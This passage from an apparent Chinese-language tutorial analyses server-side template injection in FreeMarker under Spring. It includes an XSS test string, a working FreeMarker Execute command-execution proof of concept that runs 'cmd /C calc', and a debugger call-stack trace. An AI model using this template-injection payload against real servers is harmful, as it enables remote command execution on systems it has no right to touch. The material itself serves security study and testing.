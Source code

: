 第六：运行访问，访问/hello，使用get请求提交name值即可将其渲染至页面  
测试xss：如果提交的name值为`<script>alert('a')</script>`，在不经过如何过滤的情况下，会将该值渲染到界面造成弹窗  
测试命令执行：在hello.html中写入如下命令执行POC  
`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cmd /C calc") }`  
这样在访问/hello时，会触发命令执行，弹出计算器

### 2.4 简单分析

在freemarker\\template\\utility\\Execute.class类的exec方法处下断点  
函数调用栈：

```plain
exec:75, Execute (freemarker.template.utility)
_eval:62, MethodCall (freemarker.core)
eval:101, Expression (freemarker.core)
calculateInterpolatedStringOrMarkup:100, DollarVariable (freemarker.core)
accept:63, DollarVariable (freemarker.core)
visit:334, Environment (freemarker.core)
visit:340, Environment (freemarker.core)
process:313, Environment (freemarker.core)
process:383, Template (freemarker.template)
processTemplate:391, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
doRender:304, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedTemplateModel:255, FreeMarkerView (org.springframework.web.servlet.view.freemarker)
renderMergedOutputModel:179, AbstractTemplateView (org.springframework.web.servlet.view)
render:316, AbstractView (org.springframework.web.servlet.view)
render:1373, DispatcherServlet (org.springframework.web.servlet)
processDispatchResult:1118, DispatcherServlet (org.springframework.web.servlet)
doDispatch:1057, DispatcherServlet (org.springframework.web.servlet)
doService:943, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:626, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:733, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
```